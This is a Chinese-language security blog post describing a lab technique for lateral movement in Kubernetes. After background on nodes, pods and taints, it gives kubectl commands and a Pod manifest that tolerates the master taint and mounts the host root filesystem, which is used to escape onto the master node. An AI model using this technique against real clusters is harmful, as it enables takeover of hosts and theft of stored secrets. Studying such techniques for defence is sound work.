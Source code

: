 TOC

[倾旋的博客](/) [About](/about/) [Posts](/posts/) [Links](/links/)
[Slack](https://join.slack.com/t/pocketcorp/shared_invite/zt-7z7641qt-
nlkK4NGgU5YA_vKPTfr~jA) [RSS](/feed.xml)

# Kubernetes(K8s)横向移动办法

Jul 20, 2021

> 博客半年没写了，来除除草…. :(

## 0x01 Kubernetes 简介

Kubernetes 是一个可移植的、可扩展的开源平台，用于管理容器化的工作负载和服务，可促进声明式配置和自动化。 Kubernetes
拥有一个庞大且快速增长的生态系统。Kubernetes 的服务、支持和工具广泛可用。

![2021-07-20-11-19-39](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/60ab9641f6ec3ecfec996616ef0837ab.png)

**传统部署时代：**

早期，各个组织机构在物理服务器上运行应用程序。无法为物理服务器中的应用程序定义资源边界，这会导致资源分配问题。
例如，如果在物理服务器上运行多个应用程序，则可能会出现一个应用程序占用大部分资源的情况， 结果可能导致其他应用程序的性能下降。
一种解决方案是在不同的物理服务器上运行每个应用程序，但是由于资源利用不足而无法扩展， 并且维护许多物理服务器的成本很高。

**虚拟化部署时代：**

作为解决方案，引入了虚拟化。虚拟化技术允许你在单个物理服务器的 CPU 上运行多个虚拟机（VM）。 虚拟化允许应用程序在 VM
之间隔离，并提供一定程度的安全，因为一个应用程序的信息 不能被另一应用程序随意访问。

虚拟化技术能够更好地利用物理服务器上的资源，并且因为可轻松地添加或更新应用程序 而可以实现更好的可伸缩性，降低硬件成本等等。

每个 VM 是一台完整的计算机，在虚拟化硬件之上运行所有组件，包括其自己的操作系统。

**容器部署时代：**

容器类似于 VM，但是它们具有被放宽的隔离属性，可以在应用程序之间共享操作系统（OS）。 因此，容器被认为是轻量级的。容器与 VM
类似，具有自己的文件系统、CPU、内存、进程空间等。 由于它们与基础架构分离，因此可以跨云和 OS 发行版本进行移植。

> 以上摘自Kubernetes官方文档：https://kubernetes.io/zh/docs/concepts/overview/what-is-
> kubernetes/

## 0x02 Kubernetes 关键概念介绍

Kubernetes有如下几个与本文相关的概念：

  1. 节点(Node)
  2. Pod
  3. 容忍度(Toleration)与污点(Taint)

### 节点(Node)

Kubernetes 通过将容器放入在节点（Node）上运行的 Pod 中来执行你的工作负载。
节点可以是一个虚拟机或者物理机器，取决于所在的集群配置。最容易理解的例子：

![2021-07-20-10-38-26](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/527d6800fc5f0a462b9dc90a1c3908f9.png)

该集群有三个节点，我可以在这三个节点上创建很多个Pod，而Pod中可以包含多个容器。在所有的节点中，至少要有一个Master节点，Master节点是第一个加入集群的机器，它具有整个集群的最高权限，本文的目的就是研究如何通过其他节点，横向移动到Master节点，因为Secret敏感信息(令牌、账户密码、公私钥等等)都存储在Kubernetes的etcd数据库上。

### Pod

Pod是可以在 Kubernetes 中创建和管理的、最小的可部署的计算单元。

Pod（就像在鲸鱼荚或者豌豆荚中）是一组（一个或多个） 容器； 这些容器共享存储、网络、以及怎样运行这些容器的声明。
Pod中的内容总是并置（colocated）的并且一同调度，在共享的上下文中运行。 Pod所建模的是特定于应用的“逻辑主机”，其中包含一个或多个应用容器，
这些容器是相对紧密的耦合在一起的。 在非云环境中，在相同的物理机或虚拟机上运行的应用类似于 在同一逻辑主机上运行的云应用。

Pod的共享上下文包括一组 Linux 名字空间、控制组（cgroup）和可能一些其他的隔离方面，即用来隔离Docker容器的技术。
在Pod的上下文中，每个独立的应用可能会进一步实施隔离。

就Docker概念的术语而言，Pod类似于共享名字空间和文件系统卷的一组Docker容器，也就是说Pod是Docker容器的超集。

### 容忍度(Toleration)与污点(Taint)

Kubernetes可以约束一个 Pod 只能在特定的节点上运行。

节点亲和性 是Pod的一种属性，它使 Pod 被吸引到一类特定的节点 （这可能出于一种偏好，也可能是硬性要求）。
污点（Taint）则相反——它使节点能够排斥一类特定的 Pod。容忍度（Toleration）是应用于 Pod 上的，允许（但并不要求）Pod
调度到带有与之匹配的污点的节点上。 **我们可以控制Pod创建时候的污点来向集群内的节点进行喷射创建。**

## 0x03 环境介绍

当前实验环境有三个节点，其中一个为Master节点，其余的都是普通节点。

![2021-07-20-10-56-11](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/fb788c1977b181ed1fcebec421adaee0.png)

当前机器是node1，普通节点，节点全部为健康状态，接下来要利用创建Pod的功能，横向到k8s-master。

## 0x04 利用创建Pod横向移动

  1. 确认Master节点的容忍度

    
    
    $ kubectl describe node <Node Name>
    

![2021-07-20-10-59-50](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/4de02e057736c6c005e1a521fc7ad7d7.png)

  1. 创建带有容忍参数的Pod

    
    
    $ kubectl create -f control-master.yaml
    

control-master.yaml内容：

    
    
    apiVersion: v1
    kind: Pod
    metadata:
    name: control-master-3
    spec:
    tolerations:
    - key: node-role.kubernetes.io/master
    operator: Exists
    effect: NoSchedule
    containers:
    - name: control-master-3
    image: ubuntu:18.04
    command: ["/bin/sleep", "3650d"]
    volumeMounts:
    - name: master
    mountPath: /master
    volumes:
    - name: master
    hostPath:
    path: /
    type: Directory
    

![2021-07-20-11-02-18](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/a092be4614e40a1c419aeb417f00d5c5.png)

在多次创建Pod后，会发现Pod会在Master节点上出现，再利用kubectl进入容器，执行逃逸。

![2021-07-20-11-06-24](https://rvn0xsy.oss-cn-
shanghai.aliyuncs.com/71842cf8d76f15aa1b04260f2186cf21.png)

至此，逃逸完成，能够通过写公私钥的方式控制Master宿主机。

## 0x05 总结

本文通过了解Kubernetes的一些基本概念，完成了在节点中进行横向逃逸，但我没有实现指定节点的逃逸过程，因为在Kubernetes中低权限的节点无法修改Master节点的容忍度，因此要完成逃逸，需要在每一个节点上至少创建一个Pod，如果集群中节点数量庞大的话….

![倾旋](//avatars0.githubusercontent.com/u/19944759?s=150&v=4)

倾旋

特点：爪子长、个子高、身体瘦弱

[GitHub](https://github.com/Rvn0xsy) [Twitter](https://twitter.com/Rvn0xsy)
[Email](/cdn-cgi/l/email-protection#c3b1b5adf3bbb0ba83a4aea2aaafeda0acae) 微信

Newest Posts

  * [Windows活动目录中的LDAP](/archivers/2021-08-11/1)
  * [Kubernetes(K8s)横向移动办法](/archivers/2021-07-20/1)
  * [Pricking 项目（一） ：使用介绍](/archivers/2021-02-18/1)
  * [Pricking 项目（二） ：JS模块开发](/archivers/2021-02-18/2)
  * [红队技巧：基于反向代理的水坑攻击](/archivers/2021-02-16/1)
  * [CVE-2021-3156 - Exploit修改](/archivers/2021-02-09/1)
  * [静态恶意代码逃逸（第十课）](/archivers/2021-02-08/1)
  * [Windows权限控制相关的防御与攻击技术](/archivers/2021-01-31/1)
  * [静态恶意代码逃逸（第九课）](/archivers/2020-11-29/2)
  * [静态恶意代码逃逸（第八课）](/archivers/2020-11-29/1)
  * [Linux透明代理在红队渗透中的应用](/archivers/2020-11-13/1)
  * [Web正向代理的思考](/archivers/2020-11-01/1)
  * [静态恶意代码逃逸（第七课）](/archivers/2020-10-23/1)
  * [这是一个充满挑战的好时代](/archivers/2020-08-24/1)
  * [通过OXID解析器获取Windows远程主机上网卡地址](/archivers/2020-07-16/1)
  * [更多....](/posts/)

TOC

© 2021 倾旋

